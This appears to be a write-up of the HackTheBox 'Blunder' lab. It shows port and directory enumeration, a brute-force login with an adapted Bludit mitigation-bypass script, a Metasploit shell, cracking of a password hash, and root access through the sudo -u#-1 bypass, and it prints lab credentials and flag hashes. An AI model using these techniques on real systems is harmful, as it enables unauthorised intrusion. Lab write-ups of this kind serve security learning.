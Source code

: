 ## Initial Information Gathering

***

### Nmap results
A cursory nmap scan shows two open ports on the system (shown below in the nmap
output); one for ftp which seems to be closed, and an Apache server riddled
with common vulnerabilities and exposures. This will be noted, but I'll move on
with the enumeration process to see what other services may be running on the machine
that nmap didn't scan, like those wrapped in the *Apache* service.

    > ```bash
    > PORT   STATE  SERVICE VERSION
    > 21/tcp closed ftp
    > 80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
    > |_http-server-header: Apache/2.4.41 (Ubuntu)
    > | vulners:
    > |   cpe:/a:apache:http_server:2.4.41:
    > |       CVE-2020-11984  7.5 https://vulners.com/cve/CVE-2020-11984
    > |       CVE-2020-11984  7.5 https://vulners.com/cve/CVE-2020-11984
    > |       CVE-2020-1927   5.8 https://vulners.com/cve/CVE-2020-1927
    > |       CVE-2020-1927   5.8 https://vulners.com/cve/CVE-2020-1927
    > |       CVE-2020-9490   5.0 https://vulners.com/cve/CVE-2020-9490
    > |       CVE-2020-9490   5.0 https://vulners.com/cve/CVE-2020-9490
    > |       CVE-2020-1934   5.0 https://vulners.com/cve/CVE-2020-1934
    > |       CVE-2020-1934   5.0 https://vulners.com/cve/CVE-2020-1934
    > |_      CVE-2020-11993  4.3 https://vulners.com/cve/CVE-2020-11993
    > ```

### FFUF results
The results from **FFUF** show three directories: *about*, *admin*, and
*stadia*; this is useful to look at to see any potential footholds into the
system. The *admin* directory leads to a login page with the service
___BLUDIT___ right above the form fields; this could be an indicator of the
systems entry point, as the name of the challenge is ***Blunder***. Below shows the results of the
**FFUF** scan on the host _10.10.10.191_ where I fuzzed the directory:

    > ```bash
    > :: Method           : GET
    > :: URL              : http://10.10.10.191/FUZZ
    > :: Wordlist         : FUZZ: /usr/share/wfuzz/wordlist/general/megabeast.txt
    > :: Follow redirects : false
    > :: Calibration      : false
    > :: Timeout          : 10
    > :: Threads          : 40
    > :: Matcher          : Response status: 200,204,301,302,307,401,403
    > ________________________________________________
    >
    > about                   [Status: 200, Size: 3280, Words: 225, Lines: 106]
    > admin                   [Status: 301, Size: 0, Words: 1, Lines: 1]
    > stadia                  [Status: 200, Size: 4517, Words: 408, Lines: 109]
    > :: Progress: [45459/45459] :: Job [1/1] :: 166 req/sec :: Duration: [0:05:18] :: Errors: 0 ::
    > ```

It's also important to check for any possible domains on the system, as to gain
more information on the web service. In the meantime, the *robots.txt* file was
examined and it didn't contain any useful information. No other domains were
found with this scan, so I'll do a search on possible *CVEs* that affect the
***BLUDIT*** service. When looking on
[exploit-db](https://www.exploitdb.com/exploits/48568), I found an interesting
Python script which allowed the user directory traversal functionality. The
only downside to this solution is that I need a username and password to login
to the admin portal. Could there be a way to get login credentials? I'll read
the articles on the webpage to see if anything is amiss; the about section on
the page gives a hint that something may be off about the articles they're
hosting, or something undiscovered still waits to be seen.

## Gaining Entry

***

### One Last Scan
The motivation behind this final scan is to search for anything that could have
been missed by any previous web fuzzing efforts. A very large wordlist was
downloaded from [the Probable Wordlists Github](https://github.com/berzerk0/Probable-Wordlists)
and used in the ffuf scan. The big thing I'm looking for in this scan is any
mention of a username or a more reliable password to use in the login process.
I found a *todo.txt* file in the base directory which mentioned a possible
username: **fergus**. Some possible wordlists will be created with the content
of various pages on the website.

> :: Method           : GET
> :: URL              : http://10.10.10.191/FUZZ.txt
> :: Wordlist         : FUZZ: /usr/share/wordlists/Top109Million-probable-v2.txt
> :: Follow redirects : false
> :: Calibration      : false
> :: Timeout          : 10
> :: Threads          : 40
> :: Matcher          : Response status: 200,204,301,302,307,401,403
> ________________________________________________
>
> robots                  [Status: 200, Size: 22, Words: 3, Lines: 2]
> todo                    [Status: 200, Size: 118, Words: 20, Lines: 5]

### Making Wordlists
To make sure that everything was being read (and used), I created three
wordlists using the `cewl` utility along with the *--lowercase* flag, and
outputted them into three separate files to keep track of: list2 which
comprises of all the words from *stephen-king-0*, stadia, and usb. Now that
some unique wordlists have been created to use in tandem with the usual
ones for web app testing.

### Dodging Bruteforce Mitigation
The job now is to attempt to log in using the username **fergus** and use the
various wordlists created as passwords. The main issue is that **BLUDIT** has a
mechanism in place to mitigate a brute force attack on the admin login page.
Luckily there's a [ruby utility](https://www.exploit-db.com/exploits/48746)
that bypasses authentication bruteforce mitigation that I could possibly modify
to log into the portal. This [Python PoC](https://rastating.github.io/bludit-brute-force-mitigation-bypass) will
deem useful and will ultimately be used to bypass the method employed by
**BLUDIT** though, as that's the language I'm more comfortable with.

```python
host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []
with open('/home/ursa/list.txt', 'r') as file:
    for i in file:
        wordlist.append(i.strip('\n'))
```

The above code was changed to reflect the current use case, and as it turns
out, it worked swimmingly on the first run as can be seen in the output of the
script. Finally, I'll move towards gaining access to the user flag.

> [*] Trying: fictional
> [*] Trying: character
> [*] Trying: RolandDeschain
>
> SUCCESS: Password found!
> Use fergus:RolandDeschain to login.

### Starting a Reverse Shell
For the sake of simplicity, I'll use the metasploit module available, but
another [utility](https://exploit-db.com/exploits/48568) is also useful in
tandem with a netcat listener to take care of that process manually. After all
options are set, I ran the program and was greeted with a minimal shell
courtesy of metasploit's meterpreter payload.

### More Information Gathering
Once inside, i spawned a pseudo-tty by issuing the command
`python -c "import pty; pty.spawn('/bin/bash')"`; this helped with keeping
myself coordinated throughout the remote access phase of this adventure. Inside
the user hugo's home directory, there is the *user.txt* file... but with
read-only permissions for the owner. This means I must find a way to login to
the hugo user. Luckily, **BLUDIT** keeps a file of user and password hashes in
`/var/www/bludit-3.10.0a/bl-content/databases/users.php` and those password
hashes can be given to the JohnTheRipper program to reverse. After waiting a
while for the utility to finish, the password I ended up with was
**Password120**.

### The User.txt File
Now that I'm able to login as hugo, I cd'd to the home directory and cat'd the
*user.txt* file which gave the hash `005fd67535bc1f753f1711747c140400`. Time to
move on to the root hash.

## Following the Root Trail

***

### Gathering hugo's Privileges
Now that I have access to the hugo user on the system, my priority is to make
it to the root user; in order to do that, I should know what hugo is allowed to
do. The `sudo -l` command is key here, and once *hugo*'s password is given a
really interesting thing pops up:

    ```bash
    hugo@blunder:~$ sudo -l
    sudo -l
    Password: Password120

    Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash
    ```

### Unexpected Elevator
The very last line allows this user to do pretty much anything they'd like
except run `/bin/bash` as root. There is a cheeky workaround though; just pass
the *-u* flag with `#-1` to get access to bash as can be seen below.

    ```
    hugo@blunder:~$ sudo -u#-1 /bin/bash
    sudo -u#-1 /bin/bash
    Password: Password120

    root@blunder:/home/hugo# cat ~/root.txt
    cat ~/root.txt
    cat: //root.txt: No such file or directory
    root@blunder:/home/hugo# cd
    cd
    root@blunder:/# ls
    ls
    bin    dev  home   lib64       media  proc  sbin  sys  var
    boot   etc  lib    libx32      mnt    root  snap  tmp
    cdrom  ftp  lib32  lost+found  opt    run   srv   usr
    root@blunder:/# cat root/root.txt
    cat root/root.txt
    df1907656ada15267e3058d2cd348d2e
    root@blunder:/#
    ```

### Conclusion
Overall, the challenge was relatively simple **after** the initial foothold,
which took a vast majority of the time. I learned an effective way to create
wordlists from web pages and a new method of privilege escalation. All in all,
this was a good box to get back into the swing of things when it comes to
HackTheBox.
